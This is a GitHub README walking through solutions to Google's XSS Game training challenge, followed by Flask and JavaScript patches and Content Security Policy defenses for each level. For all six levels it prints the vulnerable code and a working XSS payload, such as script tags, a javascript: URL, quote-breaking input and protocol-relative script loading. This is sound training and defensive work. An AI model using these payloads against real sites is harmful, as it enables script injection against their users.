

# Google XSS Game

This repo contains:

- Solutions to Google's [XSS game](https://xss-game.appspot.com/)
- Re-implementation and patching code in Python Flask, HTML/CSS and JavaScript
- Some thoughts on using Content Security Policy to defense the code

So let's dive in!

<!-- TABLE OF CONTENTS -->
  <ol>
    <li>
      <a href="#preface-unable-to-advance-to-level-2">Preface - Unable to advance to level 2?</a>
    </li>
    <li>
      <a href="#xss-game-solutions">XSS Game Solutions</a>
      <ul>
        <li><a href="#level-1">Level 1</a></li>
        <li><a href="#level-2">Level 2</a></li>
        <li><a href="#level-3">Level 3</a></li>
        <li><a href="#level-4">Level 4</a></li>
        <li><a href="#level-5">Level 5</a></li>
        <li><a href="#level-6">Level 6</a></li>
      </ul>
    </li>
    <li><a href="#patching">Re-implementing locally and Patching</a></li>
    <ul>
      <li><a href="#how-to-run-code">How to Run Code</a></li>
    </ul>
    <li><a href="#defense-via-content-security-policy">Defense via Content Security Policy</a></li>
    <li><a href="#license">License</a></li>
  </ol>


## Preface Unable to Advance to Level 2

As of October 2022, the game server has a bug. You may find yourself unable to advance to the next level after cracking the first level puzzle. This is because the game server will send a cookie that has already expired. Then, the the browser will discard it after checking the date.

One solution is to **capture the packet and modify the cookie date before the packet reach the browser**. You can use the packet capturing tools like [Brup Suite Community Edition](https://portswigger.net/burp/communitydownload). This screenshot shows a server response of one of my submission. Note that the cookie expire date is 22/**Jul**/2022 12:34:56 GMT (highlighted in orange color).



Then, manually change it to a future date and forward the package. In my case, I changed it to 22/Oct/2022 12:34:56 GMT. Then, the browser will keep this cookie and attach it to the next request for next level.

Another possible solution is to **change the computer time of the browser to before 2/Jul/2022 12:34:56 GMT**. In this way, you can avoid the hassle of repetitively modifying the cookie each time you advance to the next level.

## XSS Game Solutions

### Level 1

- Vulnerable code is as follows. The website directly take the input from a user and render it as part of the website with no sanitization. As a result, the browser will think the user input is part of the code and execute it.

```
message = "Sorry, no results were found for <b>" + query + "</b>."
```

- How to trigger the vulnerability? input the following string in the search bar and click on search.

```
<script>alert();</script>
```


### Level 2

- Vulnerable code: again the user's input does not have sanitization and is stored in `post[i].message`

```
html += "<blockquote>" + posts[i].message + "</blockquote";
```

- How to trigger the vulnerability: input the following string in the textfield and click on "Share status!". The browser will execute this new code and try to find `image.gif`. It will fail and trigger `alert()`

```
</blockquote><blockquote>
```

### Level 3

- Vulnerable code: this web app will directly take the section that follows `#` of the URL and pass it into  `chooseTab()`. `chooseTab()` will directly embed it into the image tag.

```
chooseTab(unescape(self.location.hash.substr(1)) || "1");
...

//in chooseTab
html += "";
```

- How to trigger the vulnerability: navigate to this URL. Here, the first `'` will end the image src string. Since the browser cannot find `/static/level3/cloud`, it will run the function following `onerror` and trigger `alert()`

```
https://xss-game.appspot.com/level3/frame#$('')
```

### Level 4

- Vulnerable code: this web app will take the user input and pass it to `startTimer()`. `startTimer()` will directly use this input.  

```


function startTimer(seconds) {
   seconds = parseInt(seconds) || 3;
... }
```

- How to trigger the vulnerability. Input the following in the text field. `3')` will finish the `startTimer()` function. Then, it will inject an alert function and get executed.

```
3'); alert('
```

### Level 5

- Vulnerable code: this web app will take the user get request and find out the parameter of `next`. Then, in HTML it will use it as a hyperlink directly

```
self.render_template('confirm.html', {'next': self.request.get('next', 'welcome')})

<a href="{{ next }}">Next >></a>
```

- How to trigger the vulnerability: navigate to this URL and click on `Next >>`. Here we make the parameter of `next` become `javascript:alert()`, so the hyperlink `href="javascript:alert()"` will make browser to run `alert()` as javascript code.
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert();
```


### Level 6

- Vulnerable code: this web app will take the section that follows `#` of the URL in `getGadgetName()`. Then attempt to load this URL as javascript.

```
includeGadget(getGadgetName());

function getGadgetName() {
  return window.location.hash.substr(1) || "/static/gadget.js";
}

// In includeGadget
var scriptEl = document.createElement('script');
...
scriptEl.src = url;
```

- How to trigger the vulnerability: navigate to this URL. Here the `//www.google.com/jsapi?callback=alert` contains script to trigger `alert()`. Even though the script added a regular expression to check if the URL contains `http`, it cannot stop this attack because no `http` keyword is included. When browser notice that no protocal is given, it will add it automatically. Using `hTtp://..` is also OK since it's case insensitive.

```
https://xss-game.appspot.com/level6/frame#//www.google.com/jsapi?callback=alert
```

## Patching

### How to run code

- To run the code of level 1, go to `l1` folder and start the flask server. (For level X, go to `lx`. For example, level 2 is at `src/patch/l2`.

```
cd code/patch/l1
python -m flask --app level1 run
```

- Then, navigate to https://localhost:5000 to view the web app

### Level 1

To ensure that the users' input is properly escaped, I used the `markupSafe` library coming along with Flask.
```
from markupsafe import escape

...
query = escape(request.args.get('query'))
message = f"Sorry, no results were found for <b> {query} </b>."
...
```

`escape()` will return a markup object that ensure that any string used along with it will be properly escaped. For example, `<script>alert()</script>` will become `&lt;script&gt;alert()&lt;/script&gt;`. In this way, the user's input will be treated plaintext instead of HTML-meaningful tags.

### Level 2

Similar to task 1, the patch is to replace the special characters so that browser will treat it as plaintext. Here, in Line 38 of `index.html`, I added two `replace()` methods to replace `<` and `>` into `&lt;` and `&gt;` respectively.

```
encoded = posts[i].message.replace(/</g, "&lt;").replace(/>/g, "&gt;");
html += "<blockquote>" + encoded + "</blockquote";
```

### Level 3

To prevent URL injection, my patch is to parse the user's input URL first. If a number cannot be extracted (potentially having some unexpected characters following the number), then the user will be redirected to tab 1.

Therefore, in Line 38 of `index.html`, I added a `parseInt()` function to process the user input as number. Then, a if condition will decide if the number is an expected one.


```
num = unescape(parseInt(self.location.hash.substr(1)))
if ((num == 1) || (num == 2) || (num == 3)) {chooseTab(num)}
else {chooseTab(1)};
```

### Level 4

My patch is to parse the user's input URL first by trying to cast it into an integer. If an integer cannot be obtained (potentially having some unexpected characters following the number), then the user will be redirected to front page to ask for another input.

Therefore, in Line 13 of `level4.py`, I added a `int()` function to process the user input into integer. The `try` statement will catch any error in the integer casting. Only integer will be proceeded with next page.

```
try:
    timer = int(request.args.get('timer'))
except Exception as e:
    return render_template('index.html')
return render_template('timer.html', timer=timer)
```

### Level 5

My patch is to check the user's input URL against all available routes. If it cannot match any of the routes, the client will be redirect to main page.

Therefore, in both Line 18 and Line 25 of `level5.py`, I added an `if` clause to check user's URL. So the value of `next` will be confined to avoid exploit.

```
availableRoutes = ['signup', 'confirm', 'welcome']
...
next = request.args.get('next')
if next in availableRoutes:
    return render_template('signup.html', next=next)
else:
    return redirect("/welcome")
```

### Level 6

My patch is to use a regular expression to enforce that only files inside static folder are acceptable.

In Line 22 `index.html`, the original code has a regular expression that looks for link starting with http. The new regular expression ensures that only urls like `#/static/*` is acceptable.

For example:

- `http://localhost:5000/#/static/gadget.js` will be accepted.
- `http://localhost:5000/#//www.google.com/jsapi?callback=alert` will be rejected.

```
var scriptEl = document.createElement('script');
// Reject the url if it's not under the static folder
if (!url.match(/^\/static\//)) {
  if (document.getElementById("log")) {
    setInnerText(document.getElementById("log"),
            "Sorry, cannot load a URL not from /static/.");
  }
  return;
}
```

## Defense via Content Security Policy

### CSP2.0

- Example code: `default-src 'none'; script-src 'self'; connect-src 'self'; img-src 'self'; style-src 'self'; base-uri 'self'; form-action 'self'`
- Patched code using CSP2.0: `src/csp2/` from `l1` to `l6`


### CSP3.0

- Example code: `script-src 'self' 'nonce-N42HzqVZYhG0RWr8CwB8hQ==' ;'`
- Patched code is available in `./code/csp3/` from `l1` to `l6`. Inline code is refactored and external files are downloaded to comply with the CPS requirements

## License
MIT
